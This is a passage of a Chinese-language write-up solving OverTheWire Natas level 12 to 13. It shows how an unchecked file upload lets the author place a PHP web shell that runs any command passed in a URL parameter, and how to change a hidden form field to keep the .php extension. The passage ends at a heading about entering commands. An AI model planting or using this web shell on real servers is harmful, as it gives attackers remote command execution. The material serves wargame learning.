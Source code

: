 知道是這種漏洞，那麼就簡單了。

既然是沒有做任何的「型別判定」，那麼就上傳一個惡意的 `.php` 檔案做攻擊就行了。

我上網找了一下，挑了個最簡單的 shell 執行程式碼來使用 ([source](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985))：

<div id="evil-code">

::: code-group

```php:line-numbers [evil.php]
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

:::

</div>

儲存成檔案就可以上傳囉～

#### 三、人生就是充滿了突發狀況

這邊若是你正常的上傳，你會出現以下的問題：

> [!NOTE] 1. 上傳
> ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228233644.png)

> [!WARNING] 2. 顯示網頁
>
> _這個檔名怪怪的_ > ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228233720.png)

> [!CAUTION] 3.... 看不到網頁 🫠🫠🫠
> ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228233803.png)

為什麼會這樣咧？原因是因為在上傳時，他的檔案名稱的控制不是由「你選擇的檔案名稱」來控制，而是由一個 `<input>` 標籤來處理。

它藏在哪呢？就在這個傳送的 `<form>` 裡面啦！但是他被 hidden 起來了，所以我們要用 Inspetor (Development Tool) 來轉換。

![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228234350.png)

![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228234433.png)

然後上傳就可以啦～

> [!TIP] 上傳檔案並且修正成正確的副檔名
> ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228234505.png)

> [!IMPORTANT] 取得 URL
> ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228234518.png)

> [!IMPORTANT] 成功取得 php
> ![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228234534.png)

#### 四、輸入惡意命令
